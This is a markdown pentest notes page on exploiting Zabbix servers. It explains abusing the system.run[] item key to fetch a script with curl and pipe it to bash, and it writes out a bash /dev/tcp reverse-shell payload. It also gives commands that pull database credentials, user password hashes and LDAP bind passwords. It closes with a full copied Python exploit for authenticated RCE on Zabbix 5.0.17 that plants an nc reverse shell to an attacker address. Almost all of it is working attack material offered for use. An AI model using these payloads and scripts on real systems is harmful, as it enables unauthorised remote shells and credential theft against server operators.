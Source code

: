 ```yaml
---
title: Zabbix 🚛
---
```

- *Credits to [riosmara.com](https://rioasmara.com/2022/04/16/exploit-zabbix-for-reverse-shell/)*
- *Credits to [telegra.ph](- [https://telegra.ph/zametki-pro-zabbix-02-27](https://telegra.ph/zametki-pro-zabbix-02-27))*
- *Credits to [ppn.snovvcrash.com](https://ppn.snovvcrash.rocks/pentest/infrastructure/devops/zabbix)*

## Exploit Zabbix for a Reverse Shell


![](Pasted%20image%2020240821082431.png)

![](Pasted%20image%2020240821082439.png)

![](Pasted%20image%2020240821082445.png)

One of the interesting Key is allowing us to run command on the Zabbix server which is `system.run[]`.

![](Pasted%20image%2020240821082507.png)

We can exploit the above feature to run our payload on the zabbix server. With the below command basically that it will run curl and connect to our attacking server and open index.html by default where the output of the index.html will be piped to bash.

![](Pasted%20image%2020240821082534.png)

### Write the payload

1. Create the `index.html` and put our reverse shell payload. You can execute this command on your terminal console to write the payload into `index.html`:

```shell
echo '/bin/bash -c "bash -i >& /dev/tcp/YOUR_IP/YOUR_PORT 0>&1"' > index.html
```


2. **Start a listener**
3. Run the exploit in Zabbix Item. You need to create a new item for the zabbix and put the payload that I mentioned earlier in the “Key” field:


![](Pasted%20image%2020240821082741.png)

To execute the command above, then you need to press the “Test” button that is place on the bottom of the page:

![](Pasted%20image%2020240821082759.png)

The next things to do is to push the **“Get value and test”** button to run execute the curl command on the zabbix server:

![](Pasted%20image%2020240821082813.png)

As you can see that when you press the get value button then it connects to the http server because of curl is triggered. When the index.html has been read and the payload in the index.html is piped to bash to chain the execution to run the payload directly where eventually the reverse connection is established as shown in the picture 3:

![](Pasted%20image%2020240821082834.png)

## Grab DB creds

```shell
cat /etc/zabbix/zabbix_server.conf | grep '^DB'
```

## Grab local creds

```shell
psql postgresql://Admin:zabbix@localhost/zabbix -c 'select userid, alias, name, surname, passwd, attempt_ip from users'
```

## Grab LDAP creds

```shell
$ psql postgresql://Admin:zabbix@localhost/zabbix -c 'select ldap_host, ldap_port, ldap_base_dn, ldap_bind_dn, ldap_bind_password from config'
```

## RCE (authenticated)

- [https://www.exploit-db.com/exploits/50816](https://www.exploit-db.com/exploits/50816)

```python
# Exploit Title: Zabbix 5.0.17 - Remote Code Execution (RCE) (Authenticated)
# Date: 9/3/2022
# Exploit Author: Hussien Misbah
# Vendor Homepage: https://www.zabbix.com/
# Software Link: https://www.zabbix.com/rn/rn5.0.17
# Version: 5.0.17
# Tested on: Linux
# Reference: https://github.com/HussienMisbah/tools/tree/master/Zabbix_exploit

#!/usr/bin/python3
# note : this is blind RCE so don't expect to see results on the site 
# this exploit is tested against Zabbix 5.0.17 only

import sys
import requests
import re 
import random
import string
import colorama
from colorama import Fore


print(Fore.YELLOW+"[*] this exploit is tested against Zabbix 5.0.17 only")
print(Fore.YELLOW+"[*] can reach the author @ https://hussienmisbah.github.io/")


def item_name() :
    letters = string.ascii_letters
    item =  ''.join(random.choice(letters) for i in range(20)) 
    return item

if len(sys.argv) != 6 :
    print(Fore.RED +"[!] usage : ./expoit.py <target url>  <username> <password> <attacker ip> <attacker port>")
    sys.exit(-1)

url  = sys.argv[1]
username =sys.argv[2]
password = sys.argv[3]
host = sys.argv[4]
port = sys.argv[5]


s = requests.Session()


headers ={ 
"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0",
}

data = {  
"request":"hosts.php", 
"name"  : username ,
"password" : password ,
"autologin" :"1" ,
"enter":"Sign+in"
}


proxies = {
   'http': 'http://127.0.0.1:8080'
}


r = s.post(url+"/index.php",data=data)  #proxies=proxies)

if "Sign out" not in r.text :
    print(Fore.RED +"[!] Authentication failed")
    sys.exit(-1)
if "Zabbix 5.0.17" not in r.text :
    print(Fore.RED +"[!] This is not Zabbix 5.0.17")
    sys.exit(-1)

if "filter_hostids%5B0%5D=" in r.text :
    try :
        x = re.search('filter_hostids%5B0%5D=(.*?)"', r.text)
        hostId = x.group(1)
    except :
        print(Fore.RED +"[!] Exploit failed to resolve HostID")
        print(Fore.BLUE +"[?] you can find it under /items then add item")
        sys.exit(-1)
else :
    print(Fore.RED +"[!] Exploit failed to resolve HostID")
    print(Fore.BLUE +"[?] you can find HostID under /items then add item")
    sys.exit(-1)


sid= re.search('<meta name="csrf-token" content="(.*)"/>',r.text).group(1) # hidden_csrf_token


command=f"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc {host} {port}  >/tmp/f"

payload = f"system.run[{command},nowait]"
Random_name = item_name()
data2 ={
    
"sid":sid,"form_refresh":"1","form":"create","hostid":hostId,"selectedInterfaceId":"0","name":Random_name,"type":"0","key":payload,"url":"","query_fields[name][1]":"","query_fields[value][1]":"","timeout":"3s","post_type":"0","posts":"","headers[name][1]":"","headers[value][1]":"","status_codes":"200","follow_redirects":"1","retrieve_mode":"0","http_proxy":"","http_username":"","http_password":"","ssl_cert_file":"","ssl_key_file":"","ssl_key_password":"","interfaceid":"1","params_es":"","params_ap":"","params_f":"","value_type":"3","units":"","delay":"1m","delay_flex[0][type]":"0","delay_flex[0][delay]":"","delay_flex[0][schedule]":"","delay_flex[0][period]":"","history_mode":"1","history":"90d","trends_mode":"1","trends":"365d","valuemapid":"0","new_application":"","applications[]":"0","inventory_link":"0","description":"","status":"0","add":"Add"
}

r2 =s.post(url+"/items.php" ,data=data2,headers=headers,cookies={"tab":"0"} )


no_pages= r2.text.count("?page=") 

#################################################[Searching in all pages for the uploaded item]#################################################
page = 1
flag=False
while page <= no_pages :
    r_page=s.get(url+f"/items.php?page={page}" ,headers=headers )
    if  Random_name in r_page.text :
        print(Fore.GREEN+"[+] the payload has been Uploaded Successfully")
        x2 = re.search(rf"(\d+)[^\d]>{Random_name}",r_page.text)
        try :
            itemId=x2.group(1)
        except :
            pass

        print(Fore.GREEN+f"[+] you should find it at {url}/items.php?form=update&hostid={hostId}&itemid={itemId}")
        flag=True
        break 

    else :
        page +=1

if flag==False :
        print(Fore.BLUE +"[?] do you know you can't upload same key twice ?")
        print(Fore.BLUE +"[?] maybe it is already uploaded so set the listener and wait 1m")
        print(Fore.BLUE +"[*] change the port and try again")
        sys.exit(-1)

#################################################[Executing the item]#################################################


data2["form"] ="update"
data2["selectedInterfaceId"] = "1"
data2["check_now"]="Execute+now"
data2.pop("add",None)
data2["itemid"]=itemId,

print(Fore.GREEN+f"[+] set the listener at {port} please...")

r2 =s.post(url+"/items.php" ,data=data2,headers=headers,cookies={"tab":"0"}) # ,proxies=proxies )

print(Fore.BLUE+ "[?] note : it takes up to +1 min so be patient :)")
answer =input(Fore.BLUE+"[+] got a shell ? [y]es/[N]o: ")

if "y" in answer.lower() :
    print(Fore.GREEN+"Nice !")
else :
    print(Fore.RED+"[!] if you find out why please contact me ")

sys.exit(0)
```